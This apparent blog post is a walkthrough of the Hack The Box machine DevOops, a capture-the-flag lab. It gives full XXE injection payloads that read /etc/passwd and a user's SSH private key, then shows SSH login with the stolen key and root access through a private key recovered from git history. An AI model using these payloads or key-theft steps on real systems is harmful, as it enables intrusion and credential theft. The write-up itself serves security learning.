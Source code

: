 ```yaml
---
layout: post
title: "Hack The Box: DevOops Walkthrough"
excerpt: "DevOops is a retired Linux machine of medium difficulty on Hack The Box"
---
```

# Metadata
## TCP 5000 Gunicorn Python WSGI HTTP Server
- Port `5000` is running a `Gunicorn Python WSGI HTTP Server` with version `19.7.1` which does not have serious vulnerability. ![Metadata1]({{ '/' | relative_url }}public/screenshots/DevOops/Metadata1.png){:style="display:block; margin-left:auto; margin-right:auto"}
	- The Home Page at `http://10.10.10.91:5000/` shows that the site is under construction and the is potentially related to `RSS feed` which involves `XML`.![Metadata2]({{ '/' | relative_url }}public/screenshots/DevOops/Metadata2.png){:style="display:block; margin-left:auto; margin-right:auto"}
- Running directory brute forcing with `feroxbuster -u http://10.10.10.91:5000/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt  -x "txt,html,php,asp,aspx,jsp" -t 10 -k -e -r` will identify an interesting URL `http://10.10.10.91:5000/upload`.![Metadata3]({{ '/' | relative_url }}public/screenshots/DevOops/Metadata3.png){:style="display:block; margin-left:auto; margin-right:auto"}
	- Navigate to `http://10.10.10.91:5000/upload`. It looks like we can upload a file. Try uploading a `.txt` file but the website redirects me back to the upload page. Looking at the page content, the backend might be expecting an `.xml` file with XML elements `Author`, `Subject`, `Content`. ![Metadata4]({{ '/' | relative_url }}public/screenshots/DevOops/Metadata4.png){:style="display:block; margin-left:auto; margin-right:auto"}
	- Try to upload the following `xml` file, the website returned something different.
		```XML
		<?xml version="1.0" encoding="UTF-8"?>
		<whatever>
		  <Author>1</Author>
		  <Subject>2</Subject>
		  <Content>3</Content>
		</whatever>
		```
	 ![Metadata5]({{ '/' | relative_url }}public/screenshots/DevOops/Metadata5.png){:style="display:block; margin-left:auto; margin-right:auto"}
		 - From the response one can identify that:
			 - 1. backend is actually processing my `xml` file.
			 - 2. Uploaded file is at URL `/uploads/example.xml`.
			 - 3. There is a user called `roosa`.
	- Try [XML external entity (XXE) injection](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity) with the following payload:
		```XML
		<?xml version="1.0" encoding="UTF-8"?>
		<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
		<whatever>
		  <Author>&example;</Author>
		  <Subject>2</Subject>
		  <Content>3</Content>
		</whatever>
		```
		![Metadata6]({{ '/' | relative_url }}public/screenshots/DevOops/Metadata6.png){:style="display:block; margin-left:auto; margin-right:auto"}
		- From the response, one can conclude the backend is vulnerable to `XXE injection` and disclosed the content of `/etc/passwd` file.

## Enumeration as roosa
- Enumerate  with `linPEAS` as `roosa` will reveal there is a `.git folder` at `/home/roosa/work/blogfeed/`![Metadata7]({{ '/' | relative_url }}public/screenshots/DevOops/Metadata7.png){:style="display:block; margin-left:auto; margin-right:auto"}
	- Navigate to `/home/roosa/work/blogfeed/`, running `git log --name-only` will identify a suspicious commit saying `reverted accidental commit with proper key`. It looks like there is a key that is not supposed to be published.![Metadata8]({{ '/' | relative_url }}public/screenshots/DevOops/Metadata8.png){:style="display:block; margin-left:auto; margin-right:auto"}

# Exploitation
## Shell as roosa
- Using the following payload to check if user `roosa` can login through `SSH` with public-key authentication.
	```xml
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY example SYSTEM "/home/roosa/.ssh/authorized_keys"> ]>
	<whatever>
	  <Author>&example;</Author>
	  <Subject>2</Subject>
	  <Content>3</Content>
	</whatever>
	```
	![Exploitation1]({{ '/' | relative_url }}public/screenshots/DevOops/Exploitation1.png){:style="display:block; margin-left:auto; margin-right:auto"}
- Looking at the response, there is an public key present. Use following payload to retrieve private key if it is under the same folder.
	```xml
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY example SYSTEM "/home/roosa/.ssh/id_rsa"> ]>
	<whatever>
	  <Author>&example;</Author>
	  <Subject>2</Subject>
	  <Content>3</Content>
	</whatever>
	```
	![Exploitation2]({{ '/' | relative_url }}public/screenshots/DevOops/Exploitation2.png){:style="display:block; margin-left:auto; margin-right:auto"}
- Copy/Paste the private key into `roosa_id_rsa` with correct format and  run `ssh roosa@10.10.10.91 -i roosa_id_rsa` to get a SSH session. Remember to run `chmod 700 roosa_id_rsa` before using the private key.![Exploitation3]({{ '/' | relative_url }}public/screenshots/DevOops/Exploitation3.png){:style="display:block; margin-left:auto; margin-right:auto"}
# PrivEsc
- Run `git checkout d387abf63e05c9628a59195cec9311751bdb283f -- resources/integration/authcredentials.key` to recover the `.key` file within the commit. After recover, it is a `RSA private key`.
- Run `chmod 700 ~/work/blogfeed/resources/integration/authcredentials.key` and `ssh root@127.0.0.1 -i ~/work/blogfeed/resources/integration/authcredentials.key` to obtain a SSH session as root.

#  Beyond Root
-  Looking at `feed.py` at `~/deploy/src`. The reason for the redirect after submitting `.txt` file is because the only acceptable file extension for the `/upload` API is `.xml`. If the `allowed_file` function check fails, it would return `upload.html` and the only allowed extension is `.xml`.![Beyond-Root1]({{ '/' | relative_url }}public/screenshots/DevOops/Beyond-Root1.png){:style="display:block; margin-left:auto; margin-right:auto"}![Beyond-Root2]({{ '/' | relative_url }}public/screenshots/DevOops/Beyond-Root2.png){:style="display:block; margin-left:auto; margin-right:auto"}